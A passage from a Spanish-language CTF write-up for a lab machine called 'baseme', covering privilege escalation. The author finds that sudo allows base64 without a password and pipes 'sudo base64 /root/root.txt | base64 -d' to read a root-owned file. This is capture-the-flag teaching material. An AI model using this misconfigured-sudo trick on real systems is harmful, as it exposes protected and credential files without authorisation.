 

## Escalada de privilegios

Como no podría ser de otra forma, si miramos la lista de permisos que tenemos para usar privilegios de otro usuario...

~~~bash
lucas@baseme:~$ sudo -l
Matching Defaults entries for lucas on baseme:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lucas may run the following commands on baseme:
    (ALL) NOPASSWD: /usr/bin/base64
~~~

¡En efecto, BASE64! Ya tenemos la vía de explotación, y aquí ya toca tirar un "pelín" de experiencia en CTF, ya que como sabemos que la flag va a estar en el directorio de root y se llamará root.txt... La idea es aprovecharse de que tenemos privilegios con el binario "base64" para leer la flag:

~~~bash
lucas@baseme:~$ sudo base64 /root/root.txt | base64 -d
                                   .     **                                     
                                *           *.                                  
                                              ,*                                
                                                 *,                             
                         ,                         ,*                           
                      .,                              *,                        
                    /                                    *                      
                 ,*                                        *,                   
               /.                                            .*.                
             *                                                  **              
             ,*                                               ,*                
                **                                          *.                  
                   **                                    **.                    
                     ,*                                **                       
                        *,                          ,*                          
                           *                      **                            
                             *,                .*                               
                                *.           **                                 
                                  **      ,*,                                   
                                     ** *,                                      
                                               
(flag)
~~~

Con esto hemos terminado la máquina y la tercera de *sml*. Me ha molado la temática y me ha resultado divertida, excepto la parte de la passphrase, la cual se me atragantó bastante 🤦‍♂️. Nos vemos en la siguiente.